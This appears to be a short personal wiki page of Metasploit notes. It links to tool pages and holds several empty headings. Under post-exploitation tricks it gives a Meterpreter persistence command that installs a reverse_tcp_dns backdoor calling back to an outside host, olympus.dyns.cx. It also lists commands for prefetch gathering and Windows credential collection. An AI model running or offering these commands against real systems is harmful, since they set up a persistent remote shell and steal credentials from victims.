 <!-- TITLE: Metasploit Main -->
<!-- SUBTITLE: A quick summary of Metasploit Main -->


[Back to Tools](/tools)

[Metasploit Site](https://www.metasploit.com/)

[MSFVenom](/msfvenom)

[Meterpreter](/meterpreter)


# Known Attack Patterns
[Pass the Hash](/passthehash)
# Writing Exploits
# Post Module Tricks
run persistence -P windows/meterpreter/reverse_tcp_dns -S -i 9000 -p 9998 -r olympus.dyns.cx
-i - I think is interval

Post Exploit
run prefetchtool -l

run post/windows/gather/credential_collector

# MSFDB Commands
# MSF RPC Connections
